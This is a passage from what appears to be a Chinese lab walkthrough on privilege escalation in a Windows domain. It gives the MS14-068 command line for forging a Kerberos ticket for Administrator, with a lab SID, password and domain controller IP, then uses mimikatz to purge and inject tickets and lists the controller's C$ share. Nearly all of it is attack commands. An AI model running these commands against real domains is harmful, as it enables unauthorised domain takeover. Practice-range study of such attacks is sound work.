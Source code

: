 


访问域共享被拒绝

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608095814555.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


使用 MS14-068 生成票据

```java
MS14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip
MS14-068.exe -u Administrator@god.org -s S-1-5-21-2952760202-1353902439-2381784089-500 -p hongrisec@2021 -d 192.168.52.138
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608100716104.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



导入前删除当前缓存kerberos票据

```java
mimikatz # kerberos::purge
or
klist purge
```

使用mimikatz导入kerberos票据

```java
mimikatz # kerberos::ptc TGT_Administrator@god.org.ccache
C:\phpStudy\WWW>dir \\owa.god.org\C$
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608101210731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)








